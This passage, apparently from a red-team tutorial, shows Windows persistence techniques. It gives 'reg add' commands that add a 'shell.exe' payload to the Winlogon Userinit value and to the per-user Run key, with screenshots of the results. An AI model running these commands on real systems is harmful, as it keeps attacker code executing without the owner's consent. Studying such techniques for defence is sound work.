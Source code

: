 ```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit
```

![image](https://github.com/user-attachments/assets/8e192716-d6a2-4e85-94a0-418c33bd83a2)

Now, create a new registry query that executes your `shell.exe` each time the user logs in, logs out, or locks the screen.

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, C:\Users\s12de\Downloads\shell.exe" /f
```

![image](https://github.com/user-attachments/assets/13e0a9ec-178c-44a4-9ba0-6d5f10c71664)

Result:

Register Key are modified!

![image](https://github.com/user-attachments/assets/c37aaab5-1069-40f2-b0ac-12bd992c1172)

![image](https://github.com/user-attachments/assets/e186a329-2c44-4b38-b6b6-dbd1eb0a5469)



### Run Register:

> Structure of the Registry - Win32 apps\
The registry is a hierarchical database that contains data that is critical for the operation of Windows. [learn.microsoft.com](https://learn.microsoft.com/en-us/windows/win32/sysinfo/structure-of-the-registry)

The Windows Registry is a hierarchical database essential to the functioning of the operating system, as well as the applications and services running on it. 
Structured like a tree, **each node is referred to as a 'key'**, which can hold both subkeys and data entries known as 'values'.

#### POC:

In this case, it's time to use the Run registry key — one of the most significant keys in the Windows system. The advantage here is that you don't need **administrator privileges** to execute your binary using this method.

```bash
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v S12 /t REG_SZ /d "C:\Users\s12de\Downloads\shell.exe"
```

![image](https://github.com/user-attachments/assets/1077a02f-e31f-4d9e-bea5-b62860698b4f)

Result:

![image](https://github.com/user-attachments/assets/e960fd76-56c2-44ec-a4ff-5894ccebff41)


